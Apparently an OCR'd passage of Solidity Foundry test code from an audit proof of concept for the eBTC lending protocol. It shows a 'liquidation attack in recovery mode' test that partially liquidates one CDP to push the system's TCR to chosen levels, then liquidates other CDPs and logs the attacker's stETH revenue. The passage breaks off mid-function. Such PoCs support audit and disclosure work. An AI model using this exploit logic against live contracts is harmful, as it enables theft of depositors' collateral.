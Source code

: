 ```solidity
        console.log("CDP size: ", sortedCdps.getSize());

        uint256 _stETHBalance = collateral.balanceOf(user);
        uint256 _eBTCBalance = eBTCToken.balanceOf(user);
        uint256 userRevenue = _stETHBalance - stETHBalance - collateral.getSharesByPooledEth(((eBTCBalance - _eBTCBalance) * DECIMAL_PRECISION) / price);
        console.log("\n");
        console.log("Final user revenue(stETH in wei): ", userRevenue);
    }

    function test_PoC2LiquidationAttackInRecoveryMode() public {
        console.log("--- Attacker will liquidate all CDPs (TCR <= ICR < CCR) and some CDPs (ICR < TCR < CCR) ---");
        console.log("---------------------------- Start Attack ----------------------------");
        uint256 TCR;
        uint256 targetICR;
        uint256 icr0;
        uint256 deltaDebt;

        uint256 price = priceFeedMock.fetchPrice();
        bool isAvailableToLiq = _checkAvailableToLiq(cdpIds[1], price);
        console.log("Is available to liquidate CDP_122ICR? ", isAvailableToLiq);
        isAvailableToLiq = _checkAvailableToLiq(cdpIds[0], price);
        console.log("Is available to liquidate CDP_110ICR? ", isAvailableToLiq);
        if (isAvailableToLiq) {
            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 122%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[1], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[1], price);
            console.log("Is available to liquidate CDP_122ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_122ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[1]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_122ICR: ", TCR);
            }

            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 123%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[2], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

```